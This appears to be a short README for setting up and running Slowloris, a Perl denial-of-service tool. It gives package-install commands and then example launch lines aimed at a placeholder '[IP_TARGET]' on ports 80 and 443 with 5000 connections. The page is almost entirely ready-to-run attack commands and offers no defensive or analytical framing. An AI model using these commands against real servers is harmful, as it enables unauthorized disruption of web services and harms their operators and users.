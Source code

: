 # Configuration Slowloris
Requirements:
------
```
sudo apt-get update  
sudo apt-get install perl
sudo apt-get install libwww-mechanize-shell-perl
sudo apt-get install perl-mechanize
```

Example Configuration :
-----
```
cd /thePathToYourSlowloris.plFile
./slowloris.pl
HTTP -> perl slowloris.pl -dns [IP_TARGET] -port 80 -timeout 200 -num 5000 -cache
HTTPS -> perl slowloris.pl -dns [IP_TARGET] -port 443 -timeout 200 -num 5000 -cache
```
